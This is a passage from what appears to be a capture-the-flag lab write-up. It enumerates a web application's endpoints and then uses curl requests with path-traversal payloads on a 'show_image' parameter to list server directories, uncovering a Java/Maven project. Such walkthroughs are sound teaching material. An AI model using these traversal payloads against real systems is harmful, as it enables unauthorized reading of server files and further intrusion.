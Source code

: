 ```
/upload               (Status: 200) [Size: 1857]
/environment          (Status: 500) [Size: 712]
/error                (Status: 500) [Size: 106]
/release_notes        (Status: 200) [Size: 1086]
```

The release notes shows that the creators added some 'checks' for the upload feature, which obviously failed if LFI can be used:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

We need to find out what kind of framework this is running. Because this uses images, I found out we can read directories like this:

```
$ curl http://10.129.178.113:8080/show_image?img=../../../../../../var/www/               
html
WebApp
```

Going into WebApp, we find more directories:

```
$ curl http://10.129.178.113:8080/show_image?img=../../../../../../var/www/WebApp
.classpath
.DS_Store
.idea
.project
.settings
HELP.md
mvnw
mvnw.cmd
pom.xml
src
targe
```
